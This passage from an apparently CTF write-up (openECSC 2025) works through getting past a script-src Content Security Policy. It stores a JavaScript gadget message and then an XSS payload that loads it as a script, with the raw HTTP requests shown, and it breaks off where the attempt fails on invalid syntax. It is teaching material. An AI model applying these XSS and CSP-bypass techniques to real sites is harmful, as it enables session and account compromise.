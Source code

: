 To bypass the `script-src` CSP directive, we can try to find a **CSP gadget** in the application.

> CSP gadget means it's a method to help you to bypass the CSP.

Since the message will be formatted as the following, what happens if we inject some JavaScript code?

```python
def generateHtmlMessage(uuid):
    return f'<h1>Message (UUIDv4: {uuid})</h1><code><pre>{messageStore[uuid]}</pre></code>'
```

Example:

```javascript
;alert(origin)//
```

Formatted message:

```javascript
<h1>Message (UUIDv4: 932db423-d50c-4b73-ab42-a2c2ba8b6c7a)</h1><code><pre>;alert(origin)//</pre></code>
```

We can try the above method to bypass the CSP:

- Create message 1 (CSP gadget):

```http
POST /message HTTP/1.1
Host: 6a508130-8c4a-4415-b18b-4819385ef2f7.openec.sc:31337
Content-Type: application/json
Content-Length: 28

{"value":";alert(origin)//"}
```

- Create message 2 (XSS payload):

```http
POST /message HTTP/1.1
Host: 6a508130-8c4a-4415-b18b-4819385ef2f7.openec.sc:31337
Content-Type: application/json
Content-Length: 97

{"value":"<script src='/download?uuid=<message_1_uuid>&view=True'></script>"}
```

Unfortunately, the formatted message causes an invalid JavaScript syntax:

![](https://github.com/siunam321/CTF-Writeups/blob/main/openECSC-2025/images/Pasted%20image%2020251003162413.png)
